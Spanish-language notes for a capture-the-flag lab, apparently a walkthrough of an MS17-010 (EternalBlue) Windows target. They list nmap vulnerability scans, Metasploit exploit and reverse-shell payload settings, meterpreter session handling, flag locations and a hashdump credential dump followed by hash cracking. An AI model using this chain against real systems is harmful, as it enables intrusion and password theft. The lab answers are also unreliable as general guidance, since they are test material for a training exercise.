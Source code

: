 Parte 1:

nmap 10.10.38.140 --scaneo de la ip

nmap -vv -sV -A -O -sC -p 135,139,445,3389 10.10.38.140 --scaneo de los purtos abiertos y sistema operativo

nmap --script smb-vuln-ms17-010 -p445 10.10.38.140 --scaneo para saber si la maquina es vulnerable a este excploit tras la verison del sistema operativo\\

estos 3 pasos se pueden hacer asi: ```nmap -vv -sV -sC -O -A -p445 -T4 --script vuln <ip>```

Parte 2:

usamos msfconsole

search ms17 --para buscar el exploit en metasplit y poder usarlo

use 0 --es el exploit que necesitamos

show options -- para ver que opciones debemos ajustar como el RHOSTS

set RHOSTS 10.10.38.140 --apra poder atacar a la maquina

set LHOST --tu ip

set LPORT puerto --si no va el predefinido

set payload windows/x64/shell/reverse_tcp --lo dice el ejercicio

run --ejecutamos el exploit

CRTL Z --para hacer backgroubn de la sesion

session -l --para ver las sesiones

session -u <sesion> --para hacerla meterpreter 

session -1 id session --para entrar a la session meterpreter

Flag1? This flag can be found at the system root. 
  cd .. --hasta llegar a C:\
  type-cat flag1.txt

Flag2? This flag can be found at the location where passwords are stored within Windows.
  Tenemos que entrar a donde se guardan las contarsenyas en windows
  cd C:\Windows\System32\config
  cat flag2.txt

flag3? This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved. 
  cd Users y ya buscas la carpeta correcta
  cat flag3.txt

Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user? 
  hasdump para encontrar a Jon

Copy this password hash to a file and research how to crack it. What is the cracked password?
  usar el decode de hash para saber la contrasenya

  
